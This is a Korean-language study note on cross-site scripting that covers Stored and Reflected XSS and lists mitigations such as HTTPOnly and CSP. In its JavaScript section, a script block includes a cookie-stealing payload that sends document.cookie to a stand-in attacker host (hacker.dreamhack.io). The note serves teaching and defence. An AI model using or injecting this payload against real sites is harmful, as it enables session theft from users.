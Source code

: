 # XSS

공격자의 입력값이
자바스크립트의 일부로 웹 브라우저에서
실행되는 취약점을 말한다.

## xss를 성공하기 위해서

XSS공격을 성공하기 위해서는
통상적으로 두가지의 조건이 전제되어야 한다.

    1. 입력 데이터에 대한 충분한 검증 과정이 없어야 한다.
        - 입력한 데이터가 충분한 검증 과정이 없어,
          악성스크립트가 삽입 될 수 있어야 한다.
    
    2. 서버의 응답 데이터가 웹 브라우저 내 페이지에
       출력 시 충분한 검증 과정이 없어야 한다.
       - 웹 브라우저에서 출력 시 필터링에 걸리지 않아야한다.

이들의 대표적인 예시로는 게시판 서비스이며,
이는 게시글이 검증되지 않을 경우 해당 게시글의 이용자들이
악성스크립트가 그대로 실행되기 때문에 위험하다.
```txt
+ 악성스크립트가 전달되는 방식에 따라
  Stored XSS
  Reflected XSS
  등 여러가지로 나뉜다.
  
  하지만 취약점의 원인은 동일하다.
```

## XSS with Javascript

JS는 사용자의 웹 브라우저에서 동적으로 보여주거나,
화면 구성을 변환하거나, 자동으로 버튼을 누르는 등의
작업을 할 때 많이 사용된다.

이런 JS는 웹 브라우저나 웹의 입장에서 상당히 접근성이 높기에
페이지 내용 조작, 위치 주소 변경, 개인정보 유출 등 다양한 방식으로
동작 시킬 수 있기때문에 이는 XSS에 다양하게 이용된다.

이를 작동시키는 대표적인 방법은
```html
    <script>
        alert("hello");
        //hello 문자열 alert 실행

        document.cookie; 
        //현재 페이지의 cookie 리턴

        alert(document.cookie);
        //현재 페이지의 cookie값 alert 실행

        document.cookie = "name=test;";
        //도큐먼트의 쿠키 생성, (key: name, value: test)

                
        new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
        // new Image() 는 이미지를 생성하는 함수이며,
        // src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
        // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키"
        //주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    </script>
```
이 처럼 script태그를 이용하는 방식이 있으며,
특정상황을 이용하는 on* 이벤트들을 이용하는 경우도 있다.

## Stored XSS

이는 악성 스크립트가 서버 내에 저장되어있다가,
사용자가 이 스크립트를 조회하는 순간
발생하는 형태의 XSS이다.

이는 게시판과 같은 형태에서는
불특정 다수에게 공격이 가능하다는 점에서
높은 파급력이 생길 가능성이 존재한다.

## Reflected XSS

이는 악성스크립트가 사용자의 요청 시
전송되는 형태이다.

사용자의 요청 데이터가 서버의 응답에
포함되는 과정에서 악성스크립트가
그대로 출력되어 발생하게 된다.

이는 Stored XSS와는 다르게 사용자의 요청 데이터에
의해 취약점이 발생하기 때문에,
변조된 데이터가 사용자의 요청으로
전송되는 형태를 유도하여야 한다.

가장 간단한 방법은 특정 링크를 유도하는 방식이 있으며,
Click Jacking, Open Redirect등의
취약점과 연계할 수 있다.

대표적인 예로는 게시물들을 조회하기 위해
입력한 데이터에 의한 방식이 있다.
해당요청에 의하여 조회 한 결과를 응답에 출력하는데,
이때 서버가 제대로 방어를 하지않으면
Reflected XSS로 이어질 수 있다.

## 해결방안
  1. Server-side Mitigations
  2. HTTPOnly 플래그 사용
  3. Content Security Policy 사용
  4. X-XSS-Protection
  